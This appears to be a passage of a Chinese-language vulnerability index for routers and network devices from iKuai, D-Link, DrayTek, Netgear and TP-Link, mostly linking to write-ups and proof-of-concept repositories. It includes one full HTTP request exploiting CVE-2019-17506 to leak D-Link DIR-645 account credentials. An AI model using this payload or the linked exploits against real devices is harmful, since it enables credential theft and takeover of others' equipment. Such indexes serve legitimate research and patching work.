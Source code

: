 **SQL注入漏洞**
- [iKuai 流控路由 SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/iKuai/iKuai%20%E6%B5%81%E6%8E%A7%E8%B7%AF%E7%94%B1%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html)
- http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/iKuai/iKuai%20%E6%B5%81%E6%8E%A7%E8%B7%AF%E7%94%B1%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
- http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-0123161
- http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2015-0123224
- http://wooyun.2xss.cc/bug_detail.php?wybug_id=wooyun-2016-0188867

## D-Link

**CVE-2019-17506 D-Link Dir-645 getcfg.php 账号密码泄露漏洞**
- POC | Payload | exp
    ```
    POST /getcfg.php HTTP/1.1
    Content-Type: application/x-www-form-urlencoded

    SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
    ```

## DrayTek

**CVE-2020-8515**
- [CVE-2020-8515 漏洞分析与利用](https://www.hayasec.me/2020/03/31/cve-2020-8515/)

## Netgear

**Netgear WNR2000 - Multiple Information Disclosure Vulnerabilities**
- POC | Payload | exp
    - https://www.exploit-db.com/exploits/33177

## TP-Link

**CVE-2021-41653 TL-WR840N rce**
- 相关文章
    - [TP-Link TL-WR840N 远程命令执行漏洞（CVE-2021-41653）](https://mp.weixin.qq.com/s/BrP8uZ39buV9wNJpFkktoQ)
    - [TP-Link TL-WR840N EU v5 Remote Code Execution](https://k4m1ll0.com/cve-2021-41653.html)

- POC | Payload | exp
    - [ohnonoyesyes/CVE-2021-41653](https://github.com/ohnonoyesyes/CVE-2021-41653)

